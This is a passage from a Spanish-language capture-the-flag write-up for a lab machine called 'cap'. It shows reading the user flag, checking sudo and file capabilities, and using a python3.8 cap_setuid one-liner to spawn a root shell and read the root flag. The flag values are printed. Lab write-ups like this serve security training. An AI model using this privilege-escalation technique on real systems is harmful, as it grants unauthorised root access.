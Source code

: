 ```bash
Last login: Fri Sep 10 01:51:05 2021 from 10.10.14.246
nathan@cap:~$
````

![baby-yes](assets/tenor.gif){:width="60px"} Y estamos dentro

Obtenemos la flag del usuario

```bash
nathan@cap:~$ cat /home/nathan/user.txt 
baa7c416ffa3c7e98a020f2e3a789b2f
```
# [](#header-1)Escalada de privilegios

Antes de ejecutar algun escript probemos identificar los permisos `SUDO` en caso que tengamos alguno y los binarios con permisos `SUID` 
>
>Setuid y Setgid son términos de Unix, abreviaturas para "Set User ID" y "Set Group ID", respectivamente. Setuid, también llamado a veces "suid", y "setgid" son permisos de acceso que pueden asignarse a archivos o directorios en un sistema operativo basado en Unix. Se utilizan principalmente para permitir a los usuarios del sistema ejecutar binarios con privilegios elevados temporalmente para realizar una tarea específica. _[RedHat-SUID-SGUID](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit)_

```bash
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap.
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

El binario <span style="color:green">/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip</span> nos permite manipular arbitrariamente los procesos UIDs. [capabilities(7) - Linux manual page](https://man7.org/linux/man-pages/man7/capabilities.7.html)

Una busqueda en [GTFOBins](https://gtfobins.github.io/) nos dio el comando para cambiar el `UID` del proceso

```python
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

Finalmente obtenemos la flag de root

```bash
# cat /root/root.txt
1dce40766331941da44ca21d2947e19f
```
